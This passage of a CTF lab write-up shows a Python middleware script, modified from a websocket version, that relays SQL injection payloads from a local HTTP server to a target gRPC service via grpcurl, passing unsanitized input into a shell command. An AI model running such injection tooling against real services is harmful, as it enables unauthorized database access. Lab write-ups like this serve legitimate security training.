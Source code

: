 
Now we have two options, try and hack the JWT or try to hack the gRPC. This gRPC really reminded me of a websocket that we hacked with sqli with the middleware made by [Rayhan0x01](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) in the machine called [Soccer](../Soccer-Writeup). So I modified the middleware to use it for gRPC.

```shell
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
import os
import sys
import subprocess

server = "10.10.11.214:50051"

def send_ws(payload):
    # If the server returns a response on connect, use below line
    #resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
    message = unquote(payload).replace('"','\'')
    data = '{"id":"%s"}' % message # campo del websocket
    token = sys.argv[1]
    command = 'grpcurl -v -plaintext -d ' + '\'' + data + '\'' + ' -rpc-header "token: ' + token + '" 10.10.11.214:50051 SimpleApp.getInfo | grep \'message\''

    print(data)
    process = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    stdout, stderr = process.communicate()
    stdout = stdout.decode('utf-8')
    return stdout

def middleware_server(host_port,content_type="text/plain"):

    class CustomHandler(SimpleHTTPRequestHandler):
    	def do_GET(self) -> None:
    		self.send_response(200)
    		try:
    			payload = urlparse(self.path).query.split('=',1)[1]
    		except IndexError:
    			payload = False

    		if payload:
    			content = send_ws(payload)
    		else:
    			content = 'No parameters specified!'

    		self.send_header("Content-type", content_type)
    		self.end_headers()
    		self.wfile.write(bytes(content,"utf-8"))
    		return

    class _TCPServer(TCPServer):
    	allow_reuse_address = True

    httpd = _TCPServer(host_port, CustomHandler)
    httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
    middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
```